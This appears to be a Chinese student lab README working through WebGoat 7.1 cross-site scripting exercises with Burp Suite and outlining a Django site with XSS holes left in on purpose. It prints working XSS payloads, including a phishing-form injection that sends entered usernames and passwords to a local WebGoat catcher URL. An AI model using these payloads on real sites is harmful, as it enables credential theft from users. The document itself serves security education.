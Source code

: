 # xxs-web
## 实验要求
- [x] 找一个具有xss漏洞的网页理解xss漏洞的原理。
- []自己写一个具有xss漏洞的网页（推荐django）,包括登录页面和评论页面（每个用户都可以看到其他用户的评论内容、用户id、评论时间）
- []写一个自动化脚本，登录此页面，爬取论坛中的信息
## 实验步骤
### xss漏洞
#### 实验环境
kali虚拟机上使用webgoat(即：不是开发者版本)
![](images/dockerps.png)
firefox设置了代理并使用burp suite拦截流量。
![](images/proxy.png)
实验使用webgoat7.1,完成了第九章Cross-Site Scripting(XSS)的学习和练习
#### webgoat7.1-xss漏洞实验步骤
[webgoat攻略](https://www.cnblogs.com/yangmzh3/p/7542018.html)
##### 1. Phishing with XSS
目标：通过XSS添加一个表单让受害者输入用户名和密码，达到钓鱼的结果。
输入代码，搜索任意字符串尝试：```</form><form name="phish"><br/><br/><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br/><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br></form><br><br><HR> ```
![](images/phishxss-1.png)
burp suite拦截结果如下：
![](images/phishxss-2.png)
根据题目要求搜索目标字符串，输入：```<form><br/><br/><HR><H3>This feature requires account login:</H3><br/><br/>Enter Username:<br/><input type="text" id="user" name="user"><br/>Enter Password:<br/><input type="password" name = "pass" id="pass"><br/><input type="submit" name="login" value="login" οnclick="var user=document.getElementById('user');var pass=document.getElementById('pass');alert('Had this been a real attack... Your credentials were just stolen. User Name = ' + user.value + 'Password = ' + pass.value);var XSSImage=new Image; XSSImage.src='http://127.0.0.1:8087/WebGoat/catcher?PROPERTY=yes&user='+ user.value + '&password=' + pass.value + '';"><br/><br/><HR></form>```,得到新的结果如下图，过关：
![](images/phishxss-2.png)
##### 2. LAB：Cross Site Scripting
###### 2.1 Stage 1:Stored XSS
目标：更改tom用户的信息（注入代码）,当Jerry用户访问的时候弹出弹窗。  
选择任意一个输入框，输入注入代码：```<script>alert('XSS')</script>```
![](images/lab1-1.png)
保存，登录'Jerry',访问Tom的资料，看到弹出框
###### 2.2 Stage 2:Block Stored XSS using Input Validation
目标：输入验证（采用过滤技术）阻止存储式xss攻击  
由于需要开发者版本，放弃
![](images/lab2-1.png)
###### 2.3 Stage3:Stored XSS Revisited
目标：使用另外两个用户('Bruce' 和 'David')访问，重复2.1的操作。正常情况由于有了2.2的操作，就不会再有弹窗，由于不是开发者版本，因此还会有弹窗。由于实验重复，没有复现的必要，进行下一步。
###### 2.4 Stage4:Block Stored XSS using Output Encoding
目标：输入验证（采用编码技术）阻止存储式xss攻击
![](images/lab4-1.png)
###### 2.5 Stage5:Reflected XSS
目标：方式和2.1一样，不同的是，2.1是更改存储的数据，当访问的时候弹出窗口，影响别人。这里是使用任意用户（比如Larry）登陆后，'searchfile'中注入代码，影响自己。
![](images/lab5-1.png)
得到效果，看到下方显示通过。
![](images/lab5-2.png)
![](images/lab5-3.png)
###### 2.6 Stage6:Block Reflected XSS
目标：仿照2.2开发防止反射式xss  
需要开发者版本，放弃。
![](images/lab6-1.png)
##### 3. Stored XSS Attacks
如下图输入注入代码
![](images/xssattack-1.png)
得到结果
![](images/xssattack-2.png)
##### 4. Reflected XSS Attacks 
如下图利用漏洞
![](images/xssattack2-1.png)
得到结果，并可以看到通关信息
![](images/xssattack2-2.png)
## xss-web网页搭建
后端数据库：
  xssusers
  xsscomments  
--templates：各种页面的模板  
login.html登陆页面
comments.html评论页面
register.html注册页面  
--forms.py.  
--models.py

